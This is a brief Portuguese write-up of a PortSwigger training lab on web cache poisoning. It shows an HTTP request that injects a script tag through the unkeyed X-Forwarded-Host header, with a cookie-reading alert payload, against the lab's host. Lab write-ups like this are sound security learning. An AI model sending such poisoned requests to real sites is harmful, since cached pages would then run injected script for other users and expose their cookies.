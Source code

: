 https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header

Usando a extensão Param Miner do Burp, ele acha uma unkeyed (X-Forwarded-Host) em "/" e o valor desse parâmetro é usado como link para acessar um js, substituindo a url por um payload malicioso:

```
GET / HTTP/2
Host: 0abf00ac036a464180383f10002700db.web-security-academy.net
X-Forwarded-Host: "></script><script type="text/javascript">alert(document.cookie)</script>
```

GG